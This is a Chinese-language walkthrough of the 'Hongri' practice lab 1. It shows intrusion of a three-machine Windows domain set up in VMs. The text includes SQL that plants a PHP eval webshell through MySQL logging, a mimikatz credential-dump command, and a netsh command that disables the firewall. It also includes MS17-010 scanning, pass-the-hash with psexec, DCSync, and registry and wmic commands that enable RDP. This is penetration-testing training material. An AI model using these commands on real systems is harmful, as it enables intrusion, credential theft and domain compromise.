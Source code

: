 # 红日靶场 1

## 环境搭建


环境中的三台机器 ip 已经提前分配好了，所以需要在 vm 里创建一个 192.168.52.0 的 host-only 网络，然后再给 win7 入口机添加一张 NAT 出网网卡。

| 主机 | 网络 |
| --- | --- |
| win7 | 192.168.52.143, 192.168.182.36 (外) |
| win2003 | 192.168.52.141 |
| win2008 | 192.168.52.138 |

查看给的拓扑图：

![](https://cdn.silente.top/img/202309281401207.png)

依次启动三台机器，然后在 win7 这里使用 phpstudy 启动 web 服务

![](https://cdn.silente.top/img/202309281403596.png)

然后需要在 win7 外网机中添加 host: `192.168.52.138  god.org`

## 攻击路径

首先使用 kscan 扫一下 web 服务 (182.1 是物理机)

![](https://cdn.silente.top/img/202309281407604.png)

是一个 phpstudy 2014 的探针服务，网上搜搜[利用方法](https://www.freebuf.com/articles/web/252274.html)，可以看到 mysql 弱密码 这个入口路径已经烂大街了

![](https://cdn.silente.top/img/202309281412986.png)

用 dirsearch 能扫出来 phpmyadmin 这个路由，root/root 进入，尝试直接写入

![](https://cdn.silente.top/img/202309281425006.png)

secure_file_priv = null，无法直接写入文件；可以使用日志来解析 php

```sql
show variables like 'general_log'; -- 查看日志是否开启
set global general_log=on; -- 开启日志功能
show variables like 'general_log_file'; -- 看看日志文件保存位置
set global general_log_file='C:/phpStudy/WWW/.se.php'; -- 设置日志文件保存位置
show variables like 'log_output'; -- 看看日志输出类型 table或file
set global log_output='table'; -- 设置输出类型为 table
set global log_output='file'; -- 设置输出类型为file
```

```sql
select "<?php echo 'Yes!';@eval(@$_POST['SilentE']); ?>" -- php 马
```
  
![](https://cdn.silente.top/img/202309281434343.png)


上线 viper，尝试内置的提权，🐂的，一下子就有 SYSTEM 权限了，都不知道怎么提的hh。
![](https://cdn.silente.top/img/202309281642267.png)




转移进程到 64 位

![](https://cdn.silente.top/img/202309300151589.png)

![](https://cdn.silente.top/img/202309300152734.png)

这样就能使用 64 位的 `load kiwi` 来加载 mimikatz，然后使用 `creds_all` 来拿密码，当然也可以直接传个上去操作

```shell
mimikatz_x64.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit 
```

![](https://cdn.silente.top/img/202309281656453.png)

关闭防火墙：`netsh advfirewall set allprofiles state off`

配置内网代理，使用 Proxifier 代理访问。

![](https://cdn.silente.top/img/202309281607208.png)

然后上传 kscan，扫一下内网。 

```shell
kscan.exe -t 192.168.52.141,192.168.52.138 -o out.txt
```

![](https://cdn.silente.top/img/202309281519462.png)


发现开了 445，扫一下 ms17_010

```sh
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.52.141 192.168.52.138
run
```

![](https://cdn.silente.top/img/202309300003257.png)

但是把 msf 的 payload 都试了个遍也打不了，估计是跟防火墙的配置有关。看到前面拿了 hash，可以试试 psexec 哈希传递。记得在此之前需要先开一个监听，用跳板机的 session 做一层转发。


![](https://cdn.silente.top/img/202309301624799.png)



![](https://cdn.silente.top/img/202309301630012.png)

可以看到能拿下域控服务器 (143)，但是 141 这个单机不知道怎么回事用 psexec 拿不下


```shell
load kiwi
kiwi_cmd lsadump::dcsync /domain:god.org /all /csv
```

但是用 smbexec 脚本又可以直接拿下。。。

![](https://cdn.silente.top/img/202309301647721.png)

然后直接远程桌面连上去

```shell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
netstat -an|find "3389"
```

![](https://cdn.silente.top/img/202309301918569.png)


总之这个靶场就当熟悉熟悉工具吧hh


## 横向移动知识点

- [浅探内网横向移动](https://xz.aliyun.com/t/8117)
- [深入了解Psexec与SMBexec](https://www.freebuf.com/articles/system/332115.html)